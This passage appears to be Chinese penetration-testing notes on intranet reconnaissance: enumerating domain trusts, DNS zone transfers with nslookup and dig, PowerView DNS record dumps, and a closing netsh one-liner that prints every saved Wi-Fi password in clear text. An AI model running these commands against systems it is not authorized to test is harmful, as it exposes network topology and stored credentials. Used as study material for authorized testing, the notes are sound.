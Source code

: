 ### 域信任

> 这里应该要去搭建多域环境，先挖一个坑，后面再回来看看

`nltest /domain_trusts`

### 域传送

> 补充原理：DNS服务器分为主、备以及缓存服务器。主备之间同步数据，需要通过DNS域传送。具体指备服务器需要从主服务器拷贝数据来更新自身数据库。其原因为配置不当，如果存在则很快将内部的网络拓扑泄露

windows下的利用方法：

1. nslookup -type=ns domain.com （查出ns服务器）
2. nslookup
3. server xxx.domain.com（查出的ns服务器）
4. ls domain.com

linux下利用方法：

`dig  @dns.domain.com axfr domain.com`

### DNS记录获取

这里用PowerView实现

1. Import-Module PowerView.ps1
2. Get-DNSRecord  -ZoneName xxcom.local

![image](./imgs/dns.png)

### WIFI

> 这个我觉得挺好的哈哈哈，个人PC机器很有用

`for /f "skip=9 tokens=1,2 delims=:" %i in ('netsh wlan show profiles')  do @echo %j | findstr -i -v echo |  netsh wlan show profiles %j key=clear`